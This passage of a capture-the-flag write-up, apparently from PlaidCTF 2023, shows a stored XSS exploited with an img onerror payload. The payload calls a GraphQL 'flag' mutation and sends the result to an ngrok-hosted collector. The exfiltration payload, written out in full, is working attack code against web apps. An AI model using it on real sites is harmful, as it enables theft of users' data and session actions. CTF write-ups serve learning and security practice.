 Nice!! We got stored XSS!!

### Exploitation

Now, we need to build a payload that fetches the flag, which is the GrahpQL endpoint's `flag` mutation query.

**XSS Payload:**
```html
<img src=x onerror="async function postData() {
const data = { 'query': 'mutation { flag }' };
const response = await fetch('https://987a-123-203-183-20.ngrok-free.app/graphql', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify(data)
});
const text = await response.text();
fetch('https://987a-123-203-183-20.ngrok-free.app/?d=' + text);
}; postData();">
```

> Note: I tried to use `<script>` element, but it wouldn't work for me, weird.

![](https://github.com/siunam321/CTF-Writeups/blob/main/PlaidCTF-2023/images/Pasted%20image%2020230415223913.png)
